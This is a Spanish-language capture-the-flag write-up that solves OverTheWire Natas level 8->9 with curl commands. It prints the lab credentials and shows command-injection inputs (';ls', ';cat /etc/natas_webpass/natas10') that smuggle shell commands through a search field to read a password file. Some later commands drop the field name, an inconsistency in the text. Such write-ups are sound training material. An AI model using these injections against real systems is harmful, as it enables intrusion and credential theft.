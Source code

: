 ```yaml
---
title: OverTheWire - Natas 8 -> 9 (sin navegador)
layout: post
post-image: /assets/images/gatohacker1.jpg 
description: La resolución de Natas 8 -> 9 sin el uso de un navegador web.
tags:
- OverTheWire
- Natas
- post
- writeups
---
```

# Información
---

```
Username: natas9
Password: W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl
URL:      http://natas9.natas.labs.overthewire.org
```

# Solución
---

Primero ejecutamos el comando curl con el parámetro `-u` para indicar las credenciales. 

```bash
curl -u natas9:W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl http://natas9.natas.labs.overthewire.org/
```

![](/assets/images/images-otw-natas/natas8->9-1.png)

Vemos que necesitamos ingresar un valor para buscar, y su código fuente es encuentra en `index-source.html`.

![](/assets/images/images-otw-natas/natas8->9-2.png)

Vamos al archivo pero no se puede leer nada.

```bash
curl -u natas9:W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl http://natas9.natas.labs.overthewire.org/index-source.html
```

![](/assets/images/images-otw-natas/natas8->9-3.png)

Solucionamos esto con la herramienta `html2text` que se puede instalar con `sudo apt install html2text`.

```bash
curl -u natas9:W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl http://natas9.natas.labs.overthewire.org/index-source.html | html2text
```

![](/assets/images/images-otw-natas/natas8->9-4.png)

Observamos que se está ejecutando el comando grep contra el archivo dictionary.txt.

![](/assets/images/images-otw-natas/natas8->9-5.png)

El input que ingresamos se guarda en la variable `$key` y se agrega al comando grep sin ningún filtro, por lo tanto, podremos ejecutar comandos.

![](/assets/images/images-otw-natas/natas8->9-6.png)

Volvemos a la página principal y con el parámetro `-d` ingresamos los valores `needle=;ls` y `submit` que puede ser cualquier cosa. Usamos `;` para terminar el comando grep y `ls` para listar los archivos.

```bash
curl -u natas9:W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl http://natas9.natas.labs.overthewire.org/ -d 'needle=;ls&submit=hola'
```

![](/assets/images/images-otw-natas/natas8->9-7.png)

Vemos el resultado del comando.

![](/assets/images/images-otw-natas/natas8->9-8.png)

Ejecutamos el comando `cat` sobre el archivo que almacena la contraseña de natas10, pero nos muestra todo el archivo **dictionary.txt**.

```bash
curl -u natas9:W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl http://natas9.natas.labs.overthewire.org/ -d ';cat /etc/natas_webpass/natas10&submit=hola'
```

![](/assets/images/images-otw-natas/natas8->9-9.png)

Esto lo solucionamos simplemente agregando un `;` al final del comando.

```bash
curl -u natas9:W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl http://natas9.natas.labs.overthewire.org/ -d ';cat /etc/natas_webpass/natas10;&submit=hola'
```

![](/assets/images/images-otw-natas/natas8->9-10.png)

# Contraseña
---

`nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu`

---

## [Anterior](/blog/level-7-8)
## [Siguiente](/blog/level-9-10)